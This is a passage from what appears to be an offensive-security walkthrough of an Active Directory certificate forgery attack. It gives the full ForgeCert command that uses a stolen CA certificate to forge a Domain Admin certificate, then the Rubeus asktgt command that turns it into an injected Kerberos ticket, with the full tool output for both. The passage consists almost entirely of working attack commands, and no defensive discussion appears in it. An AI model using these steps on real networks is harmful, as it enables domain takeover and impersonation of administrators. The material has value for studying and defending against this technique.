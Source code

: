 Keep this **.pfx** with ALL YOUR SOUL!!!! Now, let's use **ForgeCert** to issue a certificate on behalf of the Domain Admin.

```powershell
 .\ForgeCert.exe --CaCertPath ".\CORP-CA.p12" --CaCertPassword "Senha" --Subject "CN=paulo.victor,OU=Usuarios,OU=Inferi,DC=CORP,DC=LOCAL" --SubjectAltName paulo.victor@corp.local --NewCertPath ".\paulo-da.pfx" --NewCertPassword "Senha"

CA Certificate Information:
  Subject:        CN=CORP-CA, DC=CORP, DC=LOCAL
  Issuer:         CN=CORP-CA, DC=CORP, DC=LOCAL
  Start Date:     1/4/2025 12:56:14 AM
  End Date:       1/4/2030 1:06:13 AM
  Thumbprint:     0C6145AAC4A1BDF07BA3F7D01461797BF511F12C
  Serial:         1125934CE5144B9A4DEFB96CAAA4A9F2

Forged Certificate Information:
  Subject:        DC=LOCAL, DC=CORP, OU=Inferi, OU=Usuarios, CN=paulo.victor
  SubjectAltName: paulo.victor@corp.local
  Issuer:         CN=CORP-CA, DC=CORP, DC=LOCAL
  Start Date:     1/11/2025 2:34:50 AM
  End Date:       1/11/2026 2:34:50 AM
  Thumbprint:     ED557F9E9F3811F07B62EF0517CE494D83E9AD4B
  Serial:         00E32CD49040A22DBBA2BA81A1A6C87F4E

Done. Saved forged certificate to .\paulo-da.pfx with the password 'Senha'
```

Now, let's use **Rubeus** to request a TGT and impersonate the Domain Admin.

```powershell
.\Rubeus.exe asktgt /user:paulo.victor /domain:corp.local /dc:corp-dc.corp.local /certificate:"C:\Tools\paulo-da.pfx" /password:"Senha" /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.1

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: DC=LOCAL, DC=CORP, OU=Tier0, OU=Usuarios, CN=paulo.victor
[*] Building AS-REQ (w/ PKINIT preauth) for: 'corp.local\paulo.victor'
[*] Using domain controller: 10.0.0.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGVjCCBlKgAwIBBaEDAgEWooIFbTCCBWlhg...

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/corp.local
  ServiceRealm             :  CORP.LOCAL
  UserName                 :  paulo.victor
  UserRealm                :  CORP.LOCAL
  StartTime                :  1/11/2025 2:37:29 AM
  EndTime                  :  1/11/2025 12:37:29 PM
  RenewTill                :  1/18/2025 2:37:29 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
```